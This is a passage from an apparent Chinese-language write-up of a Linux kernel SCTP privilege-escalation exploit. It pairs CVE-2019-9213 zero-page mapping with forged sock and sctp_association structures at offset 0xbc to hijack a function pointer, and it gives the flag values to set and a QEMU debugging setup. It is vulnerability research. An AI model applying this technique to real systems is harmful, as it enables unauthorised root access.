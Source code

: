 ```
mov     eax,[edi+44h]
sub     eax,44h
mov     edi,eax
cmp     [ebp-84h],eax
jz      ...
```

这里在遍历到下一个节点的时候会计算asoc，0x100-0x44=0xbc

CVE-2019-9213可以映射0抵制空间，那么我们就可以在0xbc处伪造结构，从而实现控制asoc，而上面分析的fn可控，可以劫持任意地址，这样就可以进行提权了。

这里调试一下偏移：

[![](https://p1.ssl.qhimg.com/t01ef3ef1ae09f54cae.png)](https://p1.ssl.qhimg.com/t01ef3ef1ae09f54cae.png)

[![](https://p3.ssl.qhimg.com/t0176e757367e528e3e.png)](https://p3.ssl.qhimg.com/t0176e757367e528e3e.png)

```
struct sock`{`
    char padding1[0x24];
    void *net;
    char padding2[0x278];
    int type;
`}`;


struct sctp_association`{`
    char padding1[0x18];
    struct sock *sk;
    char padding2[0x190];
    int state;
`}`;
```

接下来是asoc的flags：

```
enum sctp_sinfo_flags `{`
    SCTP_UNORDERED        = (1 &lt;&lt; 0), /* Send/receive message unordered. */
    SCTP_ADDR_OVER        = (1 &lt;&lt; 1), /* Override the primary destination. */
    SCTP_ABORT        = (1 &lt;&lt; 2), /* Send an ABORT message to the peer. */
    SCTP_SACK_IMMEDIATELY    = (1 &lt;&lt; 3), /* SACK should be sent without delay. */
    /* 2 bits here have been used by SCTP_PR_SCTP_MASK */
    SCTP_SENDALL        = (1 &lt;&lt; 6),
    SCTP_PR_SCTP_ALL    = (1 &lt;&lt; 7),
    SCTP_NOTIFICATION    = MSG_NOTIFICATION, /* Next message is not user msg but notification. */
    SCTP_EOF        = MSG_FIN,  /* Initiate graceful shutdown process. */
`}`;
```

设置sinfo_flags = (1 &lt;&lt; 6) | (1 &lt;&lt; 2);



## 环境配置：
- 1、下载ubuntu 18源码包，安装依赖（make，gcc，bison，flex，libssl-dev， ncurses-dev）
<li>编译linux内核（make i386_defconfig<br>
make menuconfig<br>
make）</li>
- 通过qemu起linux内核（qemu-system-i386 -hda rootfs.img -kernel bzImage -append “console=ttyS0 root=/dev/sda rw nokaslr quiet” -m 128M -nographic -s -monitor /dev/null）
编译exp所需环境:
